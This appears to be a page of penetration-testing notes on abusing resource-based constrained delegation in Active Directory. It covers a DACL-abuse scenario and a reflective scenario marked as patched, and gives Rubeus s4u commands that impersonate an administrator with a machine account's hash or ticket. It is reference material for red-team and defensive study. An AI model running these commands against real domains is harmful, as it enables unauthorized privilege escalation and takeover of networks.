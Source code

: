 ## Attack Scenario

### Scenario 1 (Generic DACL Abuse)

Scenario:
- ServiceA is compromised computer account with:
    - credentials and the ability 
    - DACL write privilege to modify `msDS-AllowedToActOnBehalfOfOtherIdentity` on the desired target
- ServiceB is our desired target

Attack Path:
1. Use ServiceA's DACL write privilege to include ServiceA on ServiceB's `msDS-AllowedToActOnBehalfOfOtherIdentity`
    - result: now ServiceA is RBCD to ServiceB
2. `S4U2Self` on ServiceA impersonating non-sensitive user
    - result: TGS for non-sensitive user to access ServiceA
3. `S4U2Proxy` on ServiceA
    - result: TGS for the impersonated user to access ServiceB
    - reason: this works regardless of previous TGS forwardable flag

```ps1
.\Rubeus.exe s4u /user:ServiceA$ /rc4:$ServiceANtlmHash /domain:domain.local /msdsspn:cifs/serviceb.domain.local /impersonateuser:administrator /ptt

# Outcome: PrivEsc on `ServiceB`
```

### Scenario 2 (Reflective RBCD)

```admonish warning collapsible=true title="Patched"
According to [@M4yFly](https://twitter.com/M4yFly) testing, this has been sliently patched by Microsoft
```

Pre-requisites:
- computer account credentials or TGT (to perform `S4U2Self`)
- `TRUSTED_TO_AUTH_FOR_DELEGATION` set on computer account (if the computer account is constrained delegation w/o protocol transition, then the `S4U2Proxy` would fail since the resulting TGS from `S4U2Self` is non-forwardable due to the absence of `TRUSTED_TO_AUTH_FOR_DELEGATION`)
- DACL to modify the computer account `msDS-AllowedToActOnBehalfOfOtherIdentity`

```ps1
# Use DACL to include `ServiceA` on `ServiceA`'s `msDS-AllowedToActOnBehalfOfOtherIdentity`

# With credentials
.\Rubeus.exe s4u /user:ServiceA$ /rc4:$ServiceANtlmHash /domain:domain.local /msdsspn:cifs/servicea.domain.local /impersonateuser:administrator /ptt

# Or with TGT
.\Rubeus.exe s4u /user:ServiceA$ /ticket:<bas64 blob> /domain:domain.local /msdsspn:cifs/servicea.domain.local /impersonateuser:administrator /ptt

# Outcome: PrivEsc on `ServiceA`
```

